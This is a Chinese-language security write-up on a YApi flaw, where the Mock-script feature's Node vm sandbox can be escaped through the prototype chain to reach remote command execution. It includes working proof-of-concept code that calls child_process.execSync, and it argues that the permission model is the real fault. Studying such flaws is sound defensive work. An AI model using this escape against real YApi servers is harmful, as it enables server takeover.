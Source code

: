 ## 0x03 漏洞分析 

​	这个漏洞的利用条件首先需要用户通过认证，而YAPI 支持任意用户的注册功能，

​	注册之后的用户虽然没有任何分组与项目的权限，因此只能搜索、浏览 “公开项目” 的接口。但是新用户登录拥有 `个人空间` 分组下的**全部权限**，个人空间分组仅自己可见，因此可以在这里**任意试用 YApi 的功能**。

​	这里也就包括了高级Mock功能，该功能的本意是方便用户编写自己的JS脚本，该脚本将会运行在NodeJS沙盒上，但是NodeJS沙盒并不提供安全保证。关于JS沙箱的安全问题早有探讨。（见 《说说JS中的沙箱》——腾讯IVWEB团队）

​	NodeJS中使用沙箱很简单，只需要利用原生的vm模块，便可以快速创建沙箱，同时指定上下文。

```
 const vm = require('vm'); const x = 1; const sandbox = {x:2}; vm.createContext(sandbox);  //Contextify the sandbox.  const code = 'x += 40;var y=17;'; vm.runInContext(code,sandbox); console.log(sandbox.x);  // 42 console.log(sandbox.y);  // 17 console.log(x);// 1; y is not defined.
```

​	vm中提供了runInNewContext、runInThisContext、runInContext三个方法，三者的用法有个别出入，比较常用的是runInNewContext和runInContext，可以传入参数指定好上下文对象。

​	可惜的是 如果这样，我们可以用原型链绕过，如下

```
 const vm = require('vm');   vm.runInNewContext("this.constructor.constructor('return process')().exit()")
```

​	网上关于NodeJS、沙箱一类的安全技术研究也有很多，可以参考下学一学。

​	回到这个漏洞，已知Mock脚本会在沙箱中运行，那么我们只需要利用类似上面的原型链进行绕过，退出沙箱，再构造调用命令即可。

Poc：

```
 const process = this.constructor.constructor('return process')() mockJson = process.mainModule.require("child_process").execSync("whoami").toString()
```

​	注意，这里不需要加 exit，加了以后yapi服务会退出。

网上的Poc其实表达的意思是一样的，如下：

```
 const sandbox = this const ObjectConstructor = this.constructor const FunctionConstructor = ObjectConstructor.constructor const myfun = FunctionConstructor('return process') const process = myfun() mockJson = process.mainModule.require("child_process").execSync("whoami").toString()
```

我认为这个问题的本质是功能的滥用，JS沙箱绕过导致远程代码执行。之前看了一个文档《nodejs命令执行和沙箱安全》，他所说的内容有对也有不对的地方。

​	作者认为这是一个正常的功能， “很多安全人员没深入开发或者是结合到sdl中，所以对这些需求的理解不深刻。那么假设我们要执行这个需求，这个需求就是要执行任意命令，因为业务会有千奇百怪的需求，前端nodejs就要执行命令来测试的。”，我虽然也是脱离业务的安全人员，但也相信确实存在各种乱七八糟的需求，执行命令也确实有它的客观需要。

​	但文章作者认为这个正常的功能，不需要修复，我觉得不对。

​	Mock 提供的JS脚本确实是正常的功能，但是不是真的需要给任何人都开放这个权限呢？

​	我认为这是一个功能的滥用，Mock的初衷是好的，但是却容易导致被攻击者恶意利用，造成的危害是重大的。安全是一门平衡的艺术，是为了保障业务持续稳定安全的运行。这次的问题还是侧重在用户权限上，官方允许新用户登录拥有 `个人空间` 分组下的**全部权限**，可以在这里**任意试用 YApi 的功能**，这样任何人都可以运行Mock脚本，继而间接导致任何人都可以控制服务器权限，这是存在安全隐患的。
